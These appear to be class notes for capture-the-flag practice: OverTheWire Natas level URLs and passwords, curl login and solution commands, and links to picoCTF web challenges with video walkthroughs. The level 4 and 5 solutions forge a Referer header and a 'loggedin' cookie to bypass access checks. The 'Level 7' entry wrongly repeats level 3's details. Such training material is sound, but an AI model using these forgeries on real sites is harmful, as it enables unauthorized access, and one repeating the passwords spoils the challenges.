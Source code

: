 # Natas CTF Links and Passwords
## Natas Level 4
http://natas4.natas.labs.overthewire.org/
username: natas4
password: QryZXc2e0zahULdHrtHxzyYkj59kUxLQ
### Curl Command
curl -vv -u "natas4:QryZXc2e0zahULdHrtHxzyYkj59kUxLQ" http://natas4.natas.labs.overthewire.org/
### Solution Command
curl -vv -u "natas4:QryZXc2e0zahULdHrtHxzyYkj59kUxLQ" -H "Referer: http://natas5.natas.labs.overthewire.org/" http://natas4.natas.labs.overthewire.org/
## Natas Level 5
http://natas5.natas.labs.overthewire.org/
username: natas5
password: 0n35PkggAPm2zbEpOU802c0x0Msn1ToK
### Curl Command
curl -vv -u "natas5:0n35PkggAPm2zbEpOU802c0x0Msn1ToK" http://natas5.natas.labs.overthewire.org/
### Solution Command
curl -vv --cookie "loggedin=1" -u "natas5:0n35PkggAPm2zbEpOU802c0x0Msn1ToK" http://natas5.natas.labs.overthewire.org/
## Natas Level 6
http://natas6.natas.labs.overthewire.org/
username: natas6
password: 0RoJwHdSKWFTYR5WuiAewauSuNaBXned
## Natas Level 7
http://natas3.natas.labs.overthewire.org/
username: natas3
password: 3gqisGdR0pjm6tpkDKdIWO2hSvchLeYH

# Last Session's Exercises
## WebDecode
https://play.picoctf.org/practice/challenge/427?page=1&search=web
YouTube walkthrough:
https://www.youtube.com/watch?v=TdSmaAqt_jk

# This Session's Exercises
## where are the robots
https://play.picoctf.org/practice/challenge/4?category=1&page=2&search=
YouTube walkthrough:
https://youtu.be/_yUeu0xfXZ8

## includes
https://play.picoctf.org/practice/challenge/274?category=1&page=1&search=
YouTube walkthrough:
https://youtu.be/ecnV7L3tzWQ

## roboto sans
https://play.picoctf.org/practice/challenge/291?category=1&page=3&search=
YouTube walkthrough:
https://youtu.be/b6ZjzsEAka0

## secrets
https://play.picoctf.org/practice/challenge/296?category=1&page=2&search=
YouTube walkthrough:
https://youtu.be/zAD2PH22Y5M
